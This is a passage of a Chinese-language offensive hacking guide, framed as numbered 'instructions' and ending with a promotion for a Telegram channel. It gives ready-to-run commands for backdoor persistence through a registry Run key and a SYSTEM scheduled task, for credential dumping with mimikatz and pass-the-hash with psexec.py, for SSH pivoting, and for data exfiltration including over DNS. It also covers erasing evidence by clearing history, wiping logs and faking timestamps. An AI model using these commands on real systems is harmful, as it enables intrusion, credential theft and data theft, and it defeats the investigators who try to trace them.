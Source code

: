   * **注册表 Run 键**: `reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\path\to\payload.exe"`
  * **计划任务**: `schtasks /create /sc minute /mo 1 /tn "Updater" /tr "C:\path\to\payload.exe" /ru SYSTEM` (每分钟以 SYSTEM 权限运行载荷)。

#### **4.3 横向移动**

* **指令 4.3.1：哈希传递攻击 (Windows 网络)**

  * **工具**: `mimikatz` (用于转储哈希/票据), `psexec.py` (Impacket 工具套件)
  * **目的**: 使用窃取的密码哈希或 Kerberos 票据来认证到其他机器，而无需知道明文密码。
  * **语法**:
    ```bash
    # 在已控机器上
    mimikatz # sekurlsa::logonpasswords

    # 从攻击机上
    psexec.py -hashes :[NTLM哈希值] administrator@另一台目标机器
    ```
* **指令 4.3.2：SSH 隧道**

  * **目的**: 将已控机器作为跳板，攻击内部网络分段。
  * **语法**: `ssh -D 9050 user@已控主机` (在你的本地 9050 端口上创建一个 SOCKS 代理，该代理将流量隧道传输通过已控主机)。然后配置 `proxychains` 使用此代理。

#### **4.4 数据窃取与清理痕迹**

* **指令 4.4.1：数据窃取**

  * **目的**: 从目标网络中提取有价值的数据。
  * **工具**:
    * `scp`: 通过 SSH 安全地复制文件。
    * `rsync`: 同步目录。
    * `dns-exfil.py`: 在出口过滤严格的情况下，通过 DNS 查询隐蔽地窃取数据。
* **指令 4.4.2：清理痕迹**

  * **目的**: 移除行动的证据。
  * **命令**:
    * `history -c && history -w` (清除 shell 历史)
    * `shred -n 5 -z -u sensitive_file.txt` (安全删除文件)
    * 清除 `/var/log/` (Linux) 或 Windows 事件查看器中的日志。
    * 使用 `touch -r 合法文件 恶意文件` 来伪造文件时间戳。

<br>

<br>

---



**在信息构成的黑暗森林里，每个人都是带枪的猎人。关注 [@bianzhongren](https://t.me/bianzhongren)，让你从猎物变为顶级的掠食者。**

---
